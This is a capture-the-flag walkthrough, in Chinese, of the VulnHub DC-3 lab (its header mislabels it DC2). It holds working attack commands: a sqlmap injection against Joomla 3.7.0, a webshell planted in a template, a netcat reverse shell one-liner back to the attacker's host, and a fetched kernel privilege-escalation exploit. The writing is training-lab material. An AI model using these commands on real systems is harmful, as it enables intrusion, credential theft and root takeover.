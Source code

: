 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC2-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-24
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - vulnhub
  - DC
comment: false
typora-root-url: ..\..\..\..\.vuepress\public

---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-3,312/>

## DESCRIPTION

DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

只有一个flag

## 0x02 信息收集

靶机使用virtual box部署，kali使用vmware部署，都为桥接模式

nmap扫描网段

```
nmap -sP 172.21.34.0/24
```

![image-20210924101423240](/assets/img/image-20210924101423240.png)

发现靶机IP：172.21.34.31，继续扫描

```
nmap -T5 -A -v -p- 172.21.34.31
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 10:04 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating ARP Ping Scan at 10:04
Scanning 172.21.34.31 [1 port]
Completed ARP Ping Scan at 10:04, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:04
Completed Parallel DNS resolution of 1 host. at 10:04, 0.00s elapsed
Initiating SYN Stealth Scan at 10:04
Scanning 172.21.34.31 [65535 ports]
Discovered open port 80/tcp on 172.21.34.31
Completed SYN Stealth Scan at 10:04, 1.27s elapsed (65535 total ports)
Initiating Service scan at 10:04
Scanning 1 service on 172.21.34.31
Completed Service scan at 10:04, 11.06s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 172.21.34.31
NSE: Script scanning 172.21.34.31.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.41s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.04s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Nmap scan report for 172.21.34.31
Host is up (0.00072s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:2E:55:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Wed Mar 10 08:55:41 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.73 ms 172.21.34.31

NSE: Script Post-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.28 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，运行的Joomla

## 0x03 漏洞利用

使用msf查看Joomla版本为3.7.0

![image-20210924102654550](/assets/img/image-20210924102654550.png)

搜索Joomla 3.7.0版本漏洞

![image-20210924102850545](/assets/img/image-20210924102850545.png)

发现CVE-2017-8917 SQL注入漏洞： https://www.exploit-db.com/exploits/42033

上sqlmap

```txt
sqlmap -u "http://172.21.34.31/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

发现用户

![image-20210924103753282](/assets/img/image-20210924103753282.png)

使用john爆破，得到密码

![image-20210924104911090](/assets/img/image-20210924104911090.png)

在`http://172.21.34.31/administrator/index.php`登录，发现模板编辑功能，可以愉快的加马了，修改Beez3模板下index.php，加上一句话

![image-20210924111319969](/assets/img/image-20210924111319969.png)

修改完成后将Beez3模板设置为默认模板，使用蚁剑连接成功

![image-20210924111451058](/assets/img/image-20210924111451058.png)

![image-20210924111544587](/assets/img/image-20210924111544587.png)

先拿shell，kali上运行

```
nc -lvp 4444
```

因为靶机上是openbsd nc，不支持-e，所以使用以下命令反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![image-20210924141311663](/assets/img/image-20210924141311663.png)

## 0x04 提权

查看当前目录下，未找到flag相关文件，考虑提权，根据ubuntu和内核版本搜索相关漏洞

```
searchsploit -w ubuntu 16.04 4.4
```

![image-20210924141536034](/assets/img/image-20210924141536034.png)

使用CVE-2016-4557：https://www.exploit-db.com/exploits/39772

kali下载EXP

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip  --no-check-certificate
```

启动web服务

```
python -m SimpleHTTPServer 8090
```

靶机下载，解压，编译运行

```
wget http://172.21.34.30:8090/39772.zip
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
sh compile.sh
./doubleput
```

提权成功获得root权限，在`/root/`下发现flag文件，获得flag

![image-20210924142338904](/assets/img/image-20210924142338904.png)
